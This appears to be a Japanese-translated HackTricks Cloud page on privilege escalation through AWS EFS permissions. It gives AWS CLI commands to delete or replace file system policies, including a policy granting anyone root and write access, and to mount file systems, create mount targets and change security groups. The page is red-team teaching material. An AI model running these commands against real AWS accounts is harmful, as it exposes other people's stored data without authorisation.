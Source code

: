 # AWS - EFS Privesc

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## EFS

EFSに関する**詳細情報**は以下にあります：

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

EFSをマウントするには、EFSが公開されているサブネットワークにいる必要があり、アクセス権（セキュリティグループ）が必要です。これが発生している場合、デフォルトでは常にマウントできますが、IAMポリシーによって保護されている場合は、アクセスするためにここで言及されている追加の権限が必要です。

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

これらの権限のいずれかを持つ攻撃者は、**ファイルシステムポリシーを変更して**、**アクセスを与える**ことができるか、単に**削除して**、**デフォルトのアクセス**を付与することができます。

ポリシーを削除するには：
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
変更するには：
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

この権限を持つ攻撃者は**EFSをマウント**することができます。もし書き込み権限がデフォルトでEFSをマウントできるすべての人に与えられていない場合、彼は**読み取りアクセス**のみを持つことになります。
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
`elasticfilesystem:ClientRootAccess` と `elasticfilesystem:ClientWrite` の追加権限は、マウントされた後にファイルシステム内に**書き込む**ためと、そのファイルシステムに**ルート**として**アクセス**するために使用できます。

**潜在的な影響:** ファイルシステム内の機密情報を特定することによる間接的な権限昇格。

### `elasticfilesystem:CreateMountTarget`

攻撃者がEFSの**マウントターゲット**が存在しない**サブネット**内にいる場合、彼はこの権限を使って**自分のサブネットに作成する**ことができます。
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**潜在的影響:** ファイルシステム内の機密情報を特定することによる間接的な権限昇格。

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

攻撃者がEFSのマウントターゲットが自分のサブネット内にあることを発見し、**トラフィックを許可するセキュリティグループがない場合**、彼は単に**選択したセキュリティグループを変更することでそれを修正できる**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**潜在的影響:** ファイルシステム内の機密情報を特定することによる間接的な権限昇格。

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
